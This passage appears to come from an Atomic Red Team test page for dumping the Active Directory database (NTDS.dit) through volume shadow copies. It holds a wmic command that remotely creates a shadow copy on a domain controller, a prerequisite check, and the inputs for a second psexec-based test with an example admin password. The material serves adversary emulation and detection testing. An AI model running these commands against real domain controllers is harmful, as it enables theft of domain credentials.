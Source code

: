

#### Inputs:
| Name         | Description                                  | Type   | Default Value |
| ------------ | -------------------------------------------- | ------ | ------------- |
| drive_letter | Drive letter to source VSC (including colon) | String | C:            |
| DC_IP        | DC Address                                   | String | 192.168.204.100 |

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic /node:#{DC_IP} process call create 'wmic shadowcopy call create Volume=#{drive_letter}'
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
wmic /node:#{DC_IP} process call create 'reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT' 
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```




<br/>
<br/>

## Atomic Test #5 - Create Volume Shadow Copy with Powershell
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

**Supported Platforms:** Windows




#### Inputs:
| Name         | Description                                  | Type   | Default Value                                 |
| ------------ | -------------------------------------------- | ------ | --------------------------------------------- |
| drive_letter | Drive letter to source VSC (including colon) | String | C:                                            |
| psexec       | DC Address                                   | String | PathToAtomicsFolder\T1003.003A\src\psexec.exe |
| AD_ID        | DC Address                                   | String | Administrator                                 |
| password     | DC Address                                   | String | Password123!                                  |
| DC_IP        | DC Address                                   | String | 192.168.204.100                                 |
